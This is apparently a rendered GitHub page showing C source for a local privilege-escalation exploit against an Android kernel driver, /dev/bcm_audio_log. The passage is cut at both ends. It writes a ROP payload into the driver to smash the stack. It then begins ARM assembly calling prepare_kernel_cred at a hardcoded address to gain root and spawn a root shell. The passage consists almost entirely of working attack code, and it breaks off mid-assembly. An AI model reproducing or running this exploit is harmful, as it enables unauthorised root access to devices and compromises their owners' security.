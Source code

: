 ```c
    // offset the address for the rop
    char new_array[sizeof(payload) + 2] = {0};
    memcpy(new_array + 2, payload, sizeof(payload));

    // stack go boom boom!
    write(fd, new_array, sizeof(new_array));
}

int main() {
    printf("current uid: %d\n\n", getuid());

    printf("now opening bcm_audio_log\n");
    
    fd = open("/dev/bcm_audio_log", O_WRONLY);
    payload();

    printf("[:(] i should not hit here, something went wrong\n");
}
```

### Exploit 2 (Copying exploit into `/dev/`)
```c
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/syscall.h>
#include <stdlib.h>
#include <linux/kernel.h>

#define int32_t int
#define int64_t long
#define uint32_t unsigned int
#define uint64_t unsigned long

// global file descriptor
int fd;

void shell() {
    printf("[*] trying to get shell\n");
    printf("current uid: %d\n\n", getuid());

    if (getuid() == 0) {
        printf("[*] got root privileges\n");

        char *args[] = {"/system/bin/sh", NULL, NULL};
        extern char** environ;
        execve(args[0], args, environ);

        printf("[*] did not get a shell!\n");
    } else {
        printf("[:(] failed to get a root shell\n");
    }    

    exit(0);
}

extern char** environ;
void get_root() {
    asm volatile(
        "ldr     R3, =0xc00795b8\n\t" // move prepare_kernel_cred address into r3
        "mov     R0, #0\n\t"          // argument for prepare_kernel_cred
        "blx     R3\n\t"              // call prepare_kernel_cred
```